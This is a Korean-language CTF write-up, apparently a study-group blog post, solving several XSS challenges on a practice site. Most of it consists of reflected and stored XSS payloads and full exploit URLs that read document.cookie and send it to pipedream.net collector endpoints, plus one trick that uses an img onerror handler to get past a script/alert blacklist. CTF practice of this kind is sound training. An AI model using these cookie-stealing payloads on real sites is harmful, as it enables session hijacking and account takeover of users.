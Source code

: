 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS"
excerpt: "모의해킹 취업반 스터디 7기 9주차"

date: 2024-12-18
last_modified_at: 2024-12-30

tags: [TIL, WEB]
---
```


# XSS 1
## notice_list.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-2.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-3.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-4.gif?raw=true)

# xss2
## notice_list.php의 search 부분 -> reflected xss
```js
');
let c = document.cookie;
console.log(c);
let i = new Image();
console.log(i);
i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + c;
let tmp=('
```

link: <http://ctf.segfaulthub.com:4343/xss_2/notice_list.php?option_val=username&board_result=');let+c=document.cookie;console.log(c);let+i=new+Image();console.log(i);i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;let+tmp=('&board_search=%F0%9F%94%8D&date_from=&date_to=>

# xss3
notice_list.php의 search 부분은 html entity로 치환
## mypage -> reflected xss

```html
<img src=. onerror='
let c=document.cookie;
let i=new Image();
i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="+c;'>
```
+ -> %2B

# xss4
## notice_list -> stored xss
script, alert <- black list filtering
`<img src=. onerror="prompt(1)">`

```html
<img src=. onerror="
let cookie = document.cookie;
let img = new Image();
img.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + cookie;
">
```

# xss5

# xss6
# login.php
```js
');
window.onload=function() {
    let c=document.cookie;
    let i=new Image();
i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="+c;
};
console.log('
```

<http://ctf.segfaulthub.com:4343/xss_7/login.php?id=1');let+tmp="hello";let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Btmp;console.log('&pw=1>